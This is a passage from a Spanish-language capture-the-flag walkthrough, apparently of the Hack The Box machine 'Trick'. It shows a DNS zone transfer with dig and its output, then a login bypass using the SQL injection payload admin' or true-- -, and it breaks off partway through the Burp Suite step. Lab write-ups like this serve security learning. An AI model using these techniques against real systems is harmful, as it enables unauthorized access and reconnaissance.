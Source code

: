 En el puerto 53 tenemos un dns intentaremos atacarlo con <i>dig</i>, ingresando
a la ip: <i>10.10.11.166</i> de la maquina vemos un formulario de correo en este caso vamos directo al ataque de la <i>DNS</i>.

<img
src="https://res.cloudinary.com/djc1umong/image/upload/v1686608798/trick_first_oyi6bi.webp"
alt="trick.htb image"
width={600}
height={378}
/>

```powershell
root@loe# dig axfr trick.htb @10.10.11.166
; <<>> DiG 9.16.27-Debian <<>> axfr trick.htb @10.10.11.166
;; global options: +cmd
trick.htb.		604800	IN	SOA	trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.		604800	IN	NS	trick.htb.
trick.htb.		604800	IN	A	127.0.0.1
trick.htb.		604800	IN	AAAA	::1
preprod-payroll.trick.htb. 604800 IN	CNAME	trick.htb.
trick.htb.		604800	IN	SOA	trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
;; Query time: 356 msec
;; SERVER: 10.10.11.166#53(10.10.11.166)
;; WHEN: Mon Sep 19 17:09:50 -04 2022
;; XFR size: 6 records (messages 1, bytes 231)

```

Agregamos el nuevo subdominio al <i>/etc/hosts</i>, preprod-payroll.trick.htb e ingresamos a la pagina vemos que nos
redirige a <i>http://preprod-payroll.trick.htb/login.php</i> con un panel de login. Hechemos un vistaso al codigo
fuente <i>ctrl + u</i> al final notamos que hace la peticion a:

<img
src="https://res.cloudinary.com/djc1umong/image/upload/v1686608818/trick_preprod_login_code_zfazt3.webp"
alt="trick.htb image"
width={600}
height={311}
/>

Intentemos inyectar SQL <i>admin' or true-- -</i> en el <i>Username</i> ¡wala! nos deja ingresar... vaya seguridad

<img
src="https://res.cloudinary.com/djc1umong/image/upload/v1686608836/trick_login_coelis.webp"
alt="trick.htb image"
width={600}
height={311}
/>

en este punto sacamos el <i>burpsuite</i> y notamos que las peticiones lo hace al mismo archivo <i>/var/www/payroll/admin_class.php</i>, cuando
ingresamos por la url vemos lo siguiente:
